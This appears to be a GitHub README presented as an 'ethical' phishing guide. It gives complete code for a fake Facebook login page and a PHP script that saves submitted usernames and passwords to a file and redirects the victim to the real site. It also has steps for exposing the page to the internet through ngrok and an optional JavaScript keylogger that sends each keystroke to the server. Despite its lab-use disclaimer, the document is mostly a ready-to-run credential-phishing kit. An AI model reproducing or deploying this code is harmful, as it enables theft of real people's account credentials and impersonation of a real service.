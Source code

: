 
# 🎯 Ethical Phishing Page Guide (No XAMPP – Windows + PHP + Ngrok)

> 🧠 By Lucy – For Educational & Lab Use Only

---

## 📁 Folder Structure

```
phishing/
├── login.html       ← Fake login page
├── log.php          ← Logs credentials
├── credentials.txt  ← Auto-created after capture
```

---

## 🔸 Step 1: Create `login.html`

```html
<!DOCTYPE html>
<html>
<head>
  <title>Facebook Login</title>
</head>
<body>
  <h2>Facebook Login</h2>
  <form action="log.php" method="POST">
    <input type="text" name="username" placeholder="Email"><br><br>
    <input type="password" name="password" placeholder="Password"><br><br>
    <button type="submit">Login</button>
  </form>
</body>
</html>
```

---

## 🔸 Step 2: Create `log.php`

```php
<?php
$file = fopen("credentials.txt", "a");
fwrite($file, "User: " . $_POST['username'] . " | Pass: " . $_POST['password'] . "\n");
fclose($file);
header("Location: https://facebook.com"); // Redirect after capture
exit;
?>
```

---

## 🔸 Step 3: Host Locally (Without XAMPP)

### 🪟 For Windows Users

1. Download PHP ZIP from: https://windows.php.net/download/
   - Choose "VS16 x64 Thread Safe"
2. Extract to: `C:\php`
3. Add `C:\php` to **System PATH**:
   - Windows Search > "Environment Variables" > Edit Path > Add `C:\php`
4. Open `cmd`, check PHP:
   ```bash
   php -v
   ```

### 🐧 For Linux Users (Debian/Ubuntu)

```bash
sudo apt update
sudo apt install php php-cli
php -v
```

✅ Done! Now you can host PHP pages.

---

## 🔸 Step 4: Start the Server

```bash
cd path/to/phishing
php -S localhost:8080
```

🌐 Then visit:
```
http://localhost:8080/login.html
```

---

## 🌐 Step 5: Make it Public with Ngrok

📦 Download Ngrok from: https://ngrok.com/download

Then run:

```bash
ngrok http 8080
```

Copy the link it gives:
```
https://random-id.ngrok.io/login.html
```

---

## 🧪 Step 6: Test the Page

1. Open link
2. Submit any data
3. Check `credentials.txt` – captured info will appear

---

## 🔥 Bonus: Add Keylogger (Optional)

```html
<script>
document.onkeypress = function(e) {
  fetch("log.php?key=" + e.key);
}
</script>
```

---

## 🚨 Legal Use Only

> Use only in testing labs like DVWA, TryHackMe, or local environments.  
> Misuse = Illegal and punishable.


## 💻 Made with 💡 by Lucy – Your Hacker Guide
